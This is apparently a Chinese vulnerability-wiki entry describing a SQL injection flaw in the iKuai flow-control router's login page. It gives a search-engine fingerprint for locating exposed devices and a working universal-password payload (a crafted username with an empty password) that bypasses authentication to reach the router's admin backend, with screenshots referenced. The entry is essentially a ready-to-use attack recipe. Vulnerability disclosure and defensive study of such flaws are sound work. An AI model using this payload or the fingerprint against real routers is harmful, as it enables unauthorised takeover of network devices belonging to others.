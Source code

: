 # iKuai 流控路由 SQL注入漏洞

## 漏洞描述

iKuai 流控路由 存在SQL注入漏洞，可以通过SQL注入漏洞构造万能密码获取路由器后台管理权限

## 漏洞影响

<a-checkbox checked>iKuai 流控路由</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="登录爱快流控路由"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](/assets/PeiQi-Wiki/img/image-20210531180103698.png)



使用万能密码登录后台



```plain
user: "or""=""or""="
pass: 空
```



![img](/assets/PeiQi-Wiki/img/image-20210531180212296.png)

